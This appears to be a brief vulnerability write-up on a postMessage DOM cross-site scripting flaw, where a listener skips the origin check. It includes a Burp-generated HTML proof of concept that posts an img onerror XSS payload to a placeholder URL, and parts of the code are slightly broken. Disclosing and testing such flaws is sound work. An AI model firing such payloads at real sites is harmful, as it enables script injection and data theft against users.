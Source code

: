 Post message xss
specifically in the event listener of postMessage requests that do not check the origin before accessing data. As a result, an attacker can exploit this vulnerability by sending malicious data to your application from a null (sandboxed iframe) and pretending that it came from a trusted source. This could lead to a number of security risks such as data theft or other malicious activities.

code
Proof of Concept (PoC)
code
<!doctype html>
<html>
    <head>
        <!-- DOM XSS PoC - generated by DOM Invader part of Burp Suite -->
        <meta charset="UTF-8" />
        <title>Postmessage PoC</title>
        <script>
            function pocLink() {
                var ref  = window.open('https://url');
               ref.postMessage("<img src=x onerror=alert('pwnwed'>","https://url");
                }
               
           
         
        </script>
    </head>
    <body>
        <a href="#" onclick="pocLink();">PoC link</a>          
        <iframe src="https://url" onload="pocFrame(this.contentWindow)"></iframe>                    
    </body>
</html>

